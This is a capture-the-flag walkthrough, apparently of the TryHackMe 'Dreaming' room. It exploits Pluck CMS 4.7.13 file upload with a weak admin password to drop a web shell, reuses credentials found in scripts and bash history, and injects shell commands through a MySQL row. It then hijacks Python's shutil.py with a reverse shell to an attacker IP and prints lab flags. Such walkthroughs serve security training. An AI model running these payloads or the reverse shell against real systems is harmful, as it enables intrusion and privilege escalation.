

# Dreaming

First, we conduct an Nmap scan:

```
nmap -Pn -sS -sV -p- 10.113.146.84
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -Pn -sS -sV -p- 10.113.146.84
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-05-17 04:48 EDT
Nmap scan report for 10.113.146.84
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 30.37 seconds
```

Then, we start directory brute-forcing on the webserver:

```
gobuster dir -u [http://10.113.146.84](http://10.113.146.84) -w /usr/share/wordlists/dirb/big.txt
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u [http://10.113.146.84](http://10.113.146.84) -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     [http://10.113.146.84](http://10.113.146.84)
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/app                  (Status: 301) [Size: 312] [--> [http://10.113.146.84/app/](http://10.113.146.84/app/)]
/server-status        (Status: 403) [Size: 278]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We can see the `/app` subdirectory, which leads us to the `/app/pluck-4.7.13/` subdirectory. The webpage is hosted using Pluck CMS version 4.7.13, so we can search for an exploit.

```
searchsploit pluck 4.7.13
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit pluck 4.7.13  
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)              | php/webapps/49909.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

We found an exploit, but it requires authentication. Therefore, we try some common passwords in the Pluck admin panel. It turns out that the simple password "password" is valid. We can now proceed to use the exploit we found.

```
searchsploit -m 49909
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit -m 49909     
  Exploit: Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)
      URL: [https://www.exploit-db.com/exploits/49909](https://www.exploit-db.com/exploits/49909)
     Path: /usr/share/exploitdb/exploits/php/webapps/49909.py
    Codes: CVE-2020-29607
 Verified: True
File Type: ASCII text, with very long lines (18078)
Copied to: /home/kali/Desktop/49909.py
```

```
python3 49909.py 10.113.146.84 80 password /app/pluck-4.7.13/
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 49909.py 10.113.146.84 80 password /app/pluck-4.7.13/

Authentification was succesfull, uploading webshell

Uploaded Webshell to: [http://10.113.146.84:80/app/pluck-4.7.13//files/shell.phar](http://10.113.146.84:80/app/pluck-4.7.13//files/shell.phar)
```

We successfully uploaded the web shell to `/app/pluck-4.7.13/files/shell.phar`.



We can list regular users by examining the `/home` directory:

```
p0wny@shell:/opt# ls /home
death
lucien
morpheus
ubuntu
```

We can see that there are three regular users: `death`, `lucien`, and `morpheus`. Next, we examine the `/opt` directory and find some interesting files:

```
p0wny@shell:/opt# ls
getDreams.py
test.py
```

After checking `test.py`, we can see that Lucien's password is hardcoded in the Python script.

```
p0wny@shell:/opt# cat test.py
import requests

#Todo add myself as a user
url = "[http://127.0.0.1/app/pluck-4.7.13/login.php](http://127.0.0.1/app/pluck-4.7.13/login.php)"
password = "HeyLucien#@1999!"

...
```

Now, we can try logging into the system over SSH using the discovered credentials and read Lucien's flag:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh lucien@10.113.152.54
                                  {} {}
                            !  !  II II  !  !
                         !  I__I__II II__I__I  !
                         I_/|--|--|| ||--|--|\_I
        .-'"'-.       ! /|_/|  |  || ||  |  |\_|\ !       .-'"'-.
       /===    \      I//|  |  |  || ||  |  |  |\\I      /===    \
       \==     /    ! /|/ |  |  |  || ||  |  |  | \|\ !    \==     /
        \__  _/    I//|  |  |  |  || ||  |  |  |  |\\I     \__  _/
          _} {_  ! /|/ |  |  |  |  || ||  |  |  |  | \|\ !   _} {_
         {_____} I//|  |  |  |  |  || ||  |  |  |  |  |\\I {_____}
   !  !  |=  |=/|/ |  |  |  |  |  || ||  |  |  |  |  | \|\=|-  |  !  !
  _I__I__|=  ||/|  |  |  |  |  |  || ||  |  |  |  |  |  |\||   |__I__I_
  -|--|--|-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|   ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||   |--|--|-
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
  _|__|__|   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |__|__|_
  -|--|--|=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|=  ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||=  |--|--|-
  jgs |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
 ~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

W e l c o m e, s t r a n g e r . . .
lucien@10.113.152.54's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/pro](https://ubuntu.com/pro)

 System information as of Sun 17 May 2026 11:52:35 AM UTC

  System load:  0.0                Processes:             113
  Usage of /:   54.1% of 11.21GB   Users logged in:       0
  Memory usage: 73%                IPv4 address for ens5: 10.113.152.54
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   [https://ubuntu.com/engage/secure-kubernetes-at-the-edge](https://ubuntu.com/engage/secure-kubernetes-at-the-edge)

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at [https://ubuntu.com/esm](https://ubuntu.com/esm)


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Mon Aug  7 23:34:46 2023 from 192.168.1.102
lucien@ip-10-113-152-54:~$ ls
lucien_flag.txt
lucien@ip-10-113-152-54:~$ cat lucien_flag.txt 
THM{TH3_L1BR4R14N}
lucien@ip-10-113-152-54:~$ 
```

Now, if we check Lucien's `.bash_history` file, we can see the credentials used to log into the MySQL database:

```
lucien@ip-10-114-181-177:~$ cat .bash_history
ls
cd /etc/ssh/
clear

...

clear
ls
mysql -u lucien -plucien42DBPASSWORD
ls -la
cat .bash_history 

...
```

Additionally, we can see that there is another Python script located in the `/opt` directory, which has the same name as the script in death's home directory. After examining the contents of the script, we can see that it is vulnerable to Bash code injection. This allows us to execute Bash code on behalf of the `death` user (as the output of the `sudo -l` command suggests we can run it as this user).

```
lucien@ip-10-114-181-177:~$ sudo -l
Matching Defaults entries for lucien on ip-10-114-181-177:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on ip-10-114-181-177:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

```
lucien@ip-10-114-181-177:~$ cat /opt/getDreams.py 
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}" # Here we can inject bash code
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

Since we know the script is vulnerable to Bash code injection and we have the database credentials, we can log into the MySQL instance and insert our payload into the appropriate table:

```
lucien@ip-10-114-181-177:~$ mysql -u lucien -plucien42DBPASSWORD
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 8.0.41-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| library            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> show tables from library;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from library.dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.02 sec)

mysql> insert into library.dreams values ("stuff", "&& cat /home/death/getDreams.py");
Query OK, 1 row affected (0.01 sec)

mysql> select * from library.dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
| stuff   | && cat /home/death/getDreams.py    |
+---------+------------------------------------+
5 rows in set (0.00 sec)

mysql> 

```

Because the password is changed in the `/opt/getDreams.py` script, the first thing we need to do is check the password in the matching `/home/death/getDreams.py` script by reading it as the `death` user.

```
lucien@ip-10-114-181-177:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

stuff +
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

Everything worked, and we now have the password for the `death` user. We can log into the server over SSH:

```
lucien@ip-10-114-181-177:~$ ssh death@10.114.181.177
The authenticity of host '10.114.181.177 (10.114.181.177)' can't be established.
ECDSA key fingerprint is SHA256:a8S7wKGFImhowHtj+ywvsrenASCRs4W2Dvlk0mX2If0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.114.181.177' (ECDSA) to the list of known hosts.
                                  {} {}
                            !  !  II II  !  !
                         !  I__I__II II__I__I  !
                         I_/|--|--|| ||--|--|\_I
        .-'"'-.       ! /|_/|  |  || ||  |  |\_|\ !       .-'"'-.
       /===    \      I//|  |  |  || ||  |  |  |\\I      /===    \
       \==     /    ! /|/ |  |  |  || ||  |  |  | \|\ !    \==     /
        \__  _/    I//|  |  |  |  || ||  |  |  |  |\\I     \__  _/
          _} {_  ! /|/ |  |  |  |  || ||  |  |  |  | \|\ !   _} {_
         {_____} I//|  |  |  |  |  || ||  |  |  |  |  |\\I {_____}
   !  !  |=  |=/|/ |  |  |  |  |  || ||  |  |  |  |  | \|\=|-  |  !  !
  _I__I__|=  ||/|  |  |  |  |  |  || ||  |  |  |  |  |  |\||   |__I__I_
  -|--|--|-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|   ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||   |--|--|-
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
  _|__|__|   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |__|__|_
  -|--|--|=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|=  ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||=  |--|--|-
  jgs |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
 ~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

W e l c o m e, s t r a n g e r . . .
death@10.114.181.177's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/pro](https://ubuntu.com/pro)

 System information as of Sun 17 May 2026 03:46:48 PM UTC

  System load:  0.11               Processes:             119
  Usage of /:   54.3% of 11.21GB   Users logged in:       1
  Memory usage: 69%                IPv4 address for ens5: 10.114.181.177
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   [https://ubuntu.com/engage/secure-kubernetes-at-the-edge](https://ubuntu.com/engage/secure-kubernetes-at-the-edge)

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at [https://ubuntu.com/esm](https://ubuntu.com/esm)


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to [https://changelogs.ubuntu.com/meta-release-lts](https://changelogs.ubuntu.com/meta-release-lts). Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Fri Nov 17 21:44:20 2023
death@ip-10-114-181-177:~$ ls
death_flag.txt  getDreams.py
death@ip-10-114-181-177:~$ cat death_flag.txt 
THM{1M_TH3R3_4_TH3M}
death@ip-10-114-181-177:~$ 
```

Now, we can see that there is a `restore.py` script in Morpheus's home directory, and it uses the `shutil` library. After checking, we find that we have write permissions on the `shutil.py` script located on the system.

```
death@ip-10-114-181-177:/home/morpheus$ cat /home/morpheus/restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

```
death@ip-10-114-181-177:/home/morpheus$ find / -iname *shutil* 2>/dev/null
/usr/lib/python3.8/shutil.py
/usr/lib/python3.8/__pycache__/shutil.cpython-38.pyc
/usr/lib/byobu/include/shutil
/usr/lib/python3/dist-packages/twisted/words/test/__pycache__/test_xishutil.cpython-38.pyc
/usr/lib/python3/dist-packages/twisted/words/test/test_xishutil.py
/snap/core20/1974/usr/lib/python3.8/__pycache__/shutil.cpython-38.pyc
/snap/core20/1974/usr/lib/python3.8/shutil.py
/snap/core20/2015/usr/lib/python3.8/__pycache__/shutil.cpython-38.pyc
/snap/core20/2015/usr/lib/python3.8/shutil.py
death@ip-10-114-181-177:/home/morpheus$ stat /usr/lib/python3.8/shutil.py
  File: /usr/lib/python3.8/shutil.py
  Size: 51474           Blocks: 104        IO Block: 4096   regular file
Device: fd00h/64768d    Inode: 264828      Links: 1
Access: (0664/-rw-rw-r--)  Uid: (    0/    root)   Gid: ( 1001/   death)
Access: 2025-04-27 06:16:03.005701954 +0000
Modify: 2025-03-18 20:04:55.000000000 +0000
Change: 2025-05-18 20:26:28.527130035 +0000
 Birth: -
```

With write permissions, we can conduct a library hijacking attack using a Python reverse shell:

```
death@ip-10-114-181-177:/home/morpheus$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.204.155",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' > /usr/lib/python3.8/shutil.py
```

We start a listener on the specified port, and after a moment, we can read our flag:

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001       
listening on [any] 9001 ...
connect to [192.168.204.155] from (UNKNOWN) [10.114.181.177] 51490
morpheus@ip-10-114-181-177:~$ whoami
whoami
morpheus
morpheus@ip-10-114-181-177:~$ ls
ls
kingdom  morpheus_flag.txt  restore.py
morpheus@ip-10-114-181-177:~$ cat morpheus_flag.txt
cat morpheus_flag.txt
THM{DR34MS_5H4P3_TH3_W0RLD}
morpheus@ip-10-114-181-177:~$ 
```